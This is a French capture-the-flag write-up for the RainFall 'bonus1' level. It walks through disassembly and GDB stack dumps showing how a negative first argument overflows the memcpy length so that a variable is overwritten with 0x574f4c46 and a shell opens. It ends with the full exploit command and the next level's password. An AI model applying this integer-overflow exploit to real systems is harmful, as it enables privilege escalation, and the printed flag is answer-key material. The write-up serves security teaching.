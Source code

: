 # Bonus 1

Ce que nous pouvons lire :

- Le programme attend deux arguments.
- Un atoi est là pour convertir le 1er argument en integer et on met le resultat dans une variable (var1).
- S'il est strictement inférieur a 10 on entre dans la condition.
- Nous mettons le deuxième argument dans une variable (buffer) alouée 40 char sur la stack avec memcpy, en spécifiant une longueur totale de la valeur de atoi * 4 (donc 36 max.)
- Enfin, si la variable var1 est égale à l'adresse "0x574f4c46", un shell est ouvert avec les droits supérieurs.

Nous devons donc modifier la valeur de var1 et pour se faire utiliser memcopy pour l'écraser.

Mais comment vu que nous pouvons copier que 36 char.

```
Dump of assembler code for function main:
   0x08048424 <+0>:	push   %ebp
   0x08048425 <+1>:	mov    %esp,%ebp
   0x08048427 <+3>:	and    $0xfffffff0,%esp
   0x0804842a <+6>:	sub    $0x40,%esp
   0x0804842d <+9>:	mov    0xc(%ebp),%eax
   0x08048430 <+12>:	add    $0x4,%eax
   0x08048433 <+15>:	mov    (%eax),%eax
   0x08048435 <+17>:	mov    %eax,(%esp)
   0x08048438 <+20>:	call   0x8048360 <atoi@plt>
   0x0804843d <+25>:	mov    %eax,0x3c(%esp)
   0x08048441 <+29>:	cmpl   $0x9,0x3c(%esp)
   0x08048446 <+34>:	jle    0x804844f <main+43>
   0x08048448 <+36>:	mov    $0x1,%eax
   0x0804844d <+41>:	jmp    0x80484a3 <main+127>
   0x0804844f <+43>:	mov    0x3c(%esp),%eax
   0x08048453 <+47>:	lea    0x0(,%eax,4),%ecx
   0x0804845a <+54>:	mov    0xc(%ebp),%eax
   0x0804845d <+57>:	add    $0x8,%eax
   0x08048460 <+60>:	mov    (%eax),%eax
   0x08048462 <+62>:	mov    %eax,%edx
   0x08048464 <+64>:	lea    0x14(%esp),%eax
   0x08048468 <+68>:	mov    %ecx,0x8(%esp)
   0x0804846c <+72>:	mov    %edx,0x4(%esp)
   0x08048470 <+76>:	mov    %eax,(%esp)
   0x08048473 <+79>:	call   0x8048320 <memcpy@plt>
   ====>  0x08048478 <+84>:	cmpl   $0x574f4c46,0x3c(%esp)
   0x08048480 <+92>:	jne    0x804849e <main+122>
   0x08048482 <+94>:	movl   $0x0,0x8(%esp)
   0x0804848a <+102>:	movl   $0x8048580,0x4(%esp)
   0x08048492 <+110>:	movl   $0x8048583,(%esp)
   0x08048499 <+117>:	call   0x8048350 <execl@plt>
   0x0804849e <+122>:	mov    $0x0,%eax
   0x080484a3 <+127>:	leave
   0x080484a4 <+128>:	ret
```
Dans GDB :

- Nous allons poser un breakpoint juste après l'appel de memcpy pour voir ce qu'il se passe sur la stack.

```
Starting program: /home/user/bonus1/bonus1 9 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x08048478 in main ()
(gdb) x/100x $esp
0xbffff6b0:	0xbffff6c4	0xbffff8cc	0x00000024	0x080482fd
===> 0xbffff6c0:	0xb7fd13e4	0x41414141	0x41414141	0x41414141
===> 0xbffff6d0:	0x41414141	0x41414141	0x41414141	0x41414141
===> 0xbffff6e0:	0x41414141	0x41414141	0x080484b9	0x00000009
0xbffff6f0:	0x080484b0	0x00000000	0x00000000	0xb7e454d3
0xbffff700:	0x00000003	0xbffff794	0xbffff7a4	0xb7fdc858
```

L'adresse du buffer est "0xbffff6c4", 36 "A" sont copiés, puis viens l'adresse d'EIP pour retrouver la suite du programme, et ensuite nous constatons que "var1" est juste après.

La technique utilisée pour écraser cette adresse, va être d'exploiter la non vérification de l'INT_MIN (var1 < 10) pour augmenter la taille du nombre de char copié dans memcpy.

En effet, donner un nombre aux alentours du INT MIN va modifier les 32 bits et donner un nombre positif au buffer.

Exemple :
```
Starting program: /home/user/bonus1/bonus1 9 Starting program: /home/user/bonus1/bonus1 9 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x08048478 in main ()
(gdb) x/100x $esp
0xbffff6b0:	0xbffff6c4	0xbffff8cc	0x00000024	0x080482fd
===> 0xbffff6c0:	0xb7fd13e4	0x41414141	0x41414141	0x41414141
0xbffff6d0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff6e0:	0x41414141	0x41414141	0x080484b9	0x00000009 <=== 9 * 4 = 36 char copiés.


Starting program: /home/user/bonus1/bonus1 -2147483648 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
(gdb) x/100x $esp
0xbffff6a0:	0xbffff6b4	0xbffff8cc	0x00000000	0x080482fd
0xbffff6b0:	0xb7fd13e4	0x00080000	0x08049764	0x080484d1
0xbffff6c0:	0xffffffff	0xb7e5edc6	0xb7fd0ff4	0xb7e5ee55
0xbffff6d0:	0xb7fed280	0x00000000	0x080484b9	0x80000000 <=== 0 char copié.


Starting program: /home/user/bonus1/bonus1 -2147483647 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x08048478 in main ()
(gdb) x/100x $esp
0xbffff6a0:	0xbffff6b4	0xbffff8cc	0x00000004	0x080482fd
===> 0xbffff6b0:	0xb7fd13e4	0x41414141	0x08049764	0x080484d1
0xbffff6c0:	0xffffffff	0xb7e5edc6	0xb7fd0ff4	0xb7e5ee55
0xbffff6d0:	0xb7fed280	0x00000000	0x080484b9	0x80000001 <=== 1 * 4 = 1 char copié et (var1 vaut 0x80000001)
```

Après plusieurs essais nous arrivons à trouver la valeur du 1er argument pour pouvoir copier 44 chars et ecraser la valeur de var1.

```
Starting program: /home/user/bonus1/bonus1 -2147483637 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x08048478 in main ()
(gdb) x/100x $esp
0xbffff6a0:	0xbffff6b4	0xbffff8cc	0x0000002c	0x080482fd
0xbffff6b0:	0xb7fd13e4	0x41414141	0x41414141	0x41414141
0xbffff6c0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff6d0:	0x41414141	0x41414141	0x41414141	0x41414141 <===
```

nous avons donc le 1er argument, le deuxième consiste à écrire 40 * "A" + l'adresse de la condition "0x574f4c46".

```
bonus1@RainFall:~$ ./bonus1 -2147483637 $(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')
$ pwd
/home/user/bonus1
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
